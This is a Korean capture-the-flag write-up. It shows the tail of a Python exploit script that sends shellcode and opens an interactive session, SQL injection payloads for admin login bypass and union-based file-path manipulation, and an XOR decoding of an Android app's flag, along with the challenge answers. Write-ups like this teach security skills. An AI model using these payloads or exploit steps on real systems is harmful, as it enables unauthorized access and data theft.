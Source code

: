 ```python
pipe.read_until('content\n')
pipe.write(qtol(39))
pipe.read_until('content\n')
pipe.write('C' * 8 + qtol(addrsp) + 'D' * 16 + qtol(head - 0x20)[:7])
pipe.read_until('success\n')

pipe.read_line(14)
pipe.write('C')
pipe.write(qtol(2))
pipe.read_line()

pipe.write(sc1)
pipe.read_byte(len(sc1))
pipe.write(query)
pipe.read_byte(len(query))
pipe.interact()
```

Flag는 적어놓지 않았습니다.

### [Web] 카카오프렌즈와 문제 풀기

웹 사이트에 접속하면 로그인 화면이 뜹니다. ID에 `' or id='admin'#`으로 SQL injection을 시도하니 admin 계정으로 로그인이 되었습니다.

로그인하니 게시판이 뜹니다. 각 게시물에는 첨부파일이 있는데 이 `http://ssh.inc0gnito.com:9888/board\_download.php?num=5`와 같은 첨부파일 url의 num parameter에 SQL injection을 시도했습니다. Error 발생을 체크하며 `5 union select 1, 1, 1`과 같은 방법으로 query의 column이 2개임을 알아냈고, 두 번째 column이 첨부파일의 경로임을 알았습니다. 경로를 조작해 게시판 화면에서 Answer을 검사하는 auth.php를 다운받으니 Answer를 `muzi`와 비교함을 알 수 있었습니다. flag는 `muzi`입니다.

### [Reversing] CFT

주어진 파일은 Android APK입니다. 이를 decompile하면 간단한 Android application과 libvaccine이라는 native library가 있습니다. Android application은 `\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f`라는 문자열과 그 길이를 argument로 libvaccine의 vaccine 함수를 호출하며, JNI로 작성된 libvaccine의 vaccine 함수는 argument로 전달받은 문자열을 `\x1e\x14\x19\x1f\x42\x11\x19\x15\x19\x0b\x0c\x0d\x1c\x1d\x16\x1c`과 xor한 뒤 리턴합니다. Android application의 resource 중 `xxxxxxxxxxxxxxxx`라는 문자열이 있어 이를 `\x1e\x14\x19\x1f\x42\x11\x19\x15\x19\x0b\x0c\x0d\x1c\x1d\x16\x1c`과 xor한 결과 `flag:iamastudent`가 나왔습니다. flag는 `iamastudent`입니다.

